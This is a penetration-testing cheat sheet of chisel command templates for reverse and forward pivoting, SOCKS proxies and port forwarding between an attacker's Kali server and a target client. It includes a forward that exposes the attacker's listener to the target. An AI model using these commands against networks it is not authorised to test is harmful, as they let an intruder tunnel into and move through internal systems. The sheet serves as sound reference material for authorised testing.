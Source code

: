# chisel

% chisel

## chisel server (reverse pivot)
#plateform/linux  #target/remote  #cat/PIVOT 
All commands on arsenal are done with server on kali machine and client on the target.
Client or Server can also be launch on windows with chisel.exe
```
./chisel server -v -p <server_port|8000> --reverse --socks5
```

## chisel client (reverse pivot)
#plateform/windows  #target/remote  #cat/PIVOT 

If the server is launch with --reverse you can specify R: socks to get a proxy socks on server machine (port 1080)
On server with proxychains set on port 1080 you can proxy socks request on the client.

```
./chisel client <server_ip>:<server_port> R:<proxy_port|1080>:socks
```

## chisel server (forward pivot)
#plateform/linux  #target/remote  #cat/PIVOT 

```
./chisel server -v -p <server_port|8000> --socks5
```

## chisel client (forward pivot)
#plateform/windows  #target/remote  #cat/PIVOT 


```
./chisel client <server_ip>:<server_port|8000> socks
```




## chisel local port forwarding (reverse pivot) - forward client port on server
#plateform/linux  #target/remote  #cat/PIVOT 

This forward {clientside-host}:{clientside-port} to server {local-port}
To get the port of the client machine locally on serverside.
ex: R:2222:localhost:22 to get the client 22 (ssh) on the port 2222 of the server
| server | - 2222 <-----  |client|-127.0.0.1:22
on server : ssh -p 2222 127.0.0.1

```
./chisel client -v <server_ip>:<server_port|8000> R:<serverside-port>:<clientside-host|localhost>:<clientside-port>
```

## chisel remote port forwarding (reverse pivot) - forward server port on client
#plateform/linux  #target/remote  #cat/PIVOT 

To expose server port remotely (useful to expose your listener)
This forward {serverside-host}:{serverside-port} from the server to {clientside-host}:{clientside-port}
ex : 0.0.0.0:4445:127.0.0.1:4444 expose the server 4444 listener to client 4445
| server | - 4444 ------->  |client|-4445 : *   <-

```
./chisel client -v <server_ip>:<server_port|8000> <clientside-host|0.0.0.0>:<clientside-port>:<serverside-host|127.0.0.1>:<serverside-port>
```
	




